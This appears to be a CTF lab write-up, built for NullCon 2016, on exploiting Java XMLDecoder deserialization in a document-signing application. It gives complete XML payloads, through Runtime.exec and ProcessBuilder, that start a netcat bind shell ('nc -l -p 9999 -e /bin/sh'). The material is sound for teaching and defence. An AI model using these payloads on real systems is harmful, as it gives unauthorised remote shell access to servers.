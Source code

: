 ## Introduction
-->This course details the exploitation of an application using `XMLDecoder to unserialize arbitrary data. This exercise was built for the NullCon 2016 CTF. The application allows users to sign and verify documents.`

## XMLDecoder
-->XMLDecoder is a Java class that creates object based on a XML message. If a malicious user can get an application to use arbitrary data in a call to the method `readObject` she will instantly gain code execution on the server.

## Exploitation of this vulnerability  
-->If we read the signature generated by the server, it's easy to tell that the application is using `XMLDecoder`:
```java
	<java version="1.7.0_67" class="java.beans.XMLDecoder">
	<object class="models.CTFSignature" id="CTFSignature0">
	<void class="models.CTFSignature" method="getField">
	<string>hash</string>
	<void method="set">
	<object idref="CTFSignature0"/>
	<string>33b6c7bd8cc4d313bf9f7ca2c73851da2b33d67e</string>
	</void>
	</void>
	<void class="models.CTFSignature" method="getField">
	<string>sig</string>
	<void method="set">
	<object idref="CTFSignature0"/>
	<string>ad87fbe389784e423b4545b4a1c8a4f873a6295e</string>
	</void>
	</void>
	</object>
	</java>
```
--> We want to start a shell and bind it to a TCP port. The Java code to do this looks like:
```java
Runtime run = Runtime.getRuntime();
String[] commands = new String[] { "/usr/bin/nc", "-l","-p", "9999", "-e", "/bin/sh" };
run.exec(commands );
```
--> To get code execution, we will need to manually transform this code in the right format.
-->To do this, we get a Runtime object using:
```xml
<object class="java.lang.Runtime" method="getRuntime">
	 
	Then we can call the method exec using:
	 
	<void method="exec">
	      <array class="java.lang.String" length="6">
	          <void index="0">
	              <string>/usr/bin/nc</string>
	          </void>
	          <void index="1">
	              <string>-l</string>
	          </void>
	          <void index="2">
	              <string>-p</string>
	          </void>
	          <void index="3">
	              <string>9999</string>
	          </void>
	          <void index="4">
	              <string>-e</string>
	          </void>
	          <void index="5">
	              <string>/bin/sh</string>
	          </void>
	      </array>
	      </void>
	 
	 
	If we look at the final payload, the important part is to see how the call to exec is nested inside the object element:
	 
	<?xml version="1.0" encoding="UTF-8"?>
	<java version="1.7.0_21" class="java.beans.XMLDecoder">
	 <object class="java.lang.Runtime" method="getRuntime">
	      <void method="exec">
	      <array class="java.lang.String" length="6">
	          <void index="0">
	              <string>/usr/bin/nc</string>
	          </void>
	          <void index="1">
	              <string>-l</string>
	          </void>
	          <void index="2">
	              <string>-p</string>
	          </void>
	          <void index="3">
	              <string>9999</string>
	          </void>
	          <void index="4">
	              <string>-e</string>
	          </void>
	          <void index="5">
	              <string>/bin/sh</string>
	          </void>
	      </array>
	      </void>
	 </object>
	</java>
	 
	 
	If we were to use ProcessBuilder instead of Runtime().exec(), the payload will look like:
	 
	<?xml version="1.0" encoding="UTF-8"?>
	<java version="1.7.0_21" class="java.beans.XMLDecoder">
	  <void class="java.lang.ProcessBuilder">
	    <array class="java.lang.String" length="6">
	      <void index="0">
	        <string>/usr/bin/nc</string>
	      </void>
	      <void index="1">
	         <string>-l</string>
	      </void>
	      <void index="2">
	         <string>-p</string>
	      </void>
	      <void index="3">
	         <string>9999</string>
	      </void>
	      <void index="4">
	         <string>-e</string>
	      </void>
	      <void index="5">
	         <string>/bin/sh</string>
	      </void>
	    </array>
	    <void method="start" id="process">
	    </void>
	  </void>
	</java>
		 
```

## Conclusion
-->This exercise showed you how you can gain code execution when an application uses XMLDecoder to parse XML and create an object from the XML message. Unserializing user-controlled data is never a good idea and should be avoided.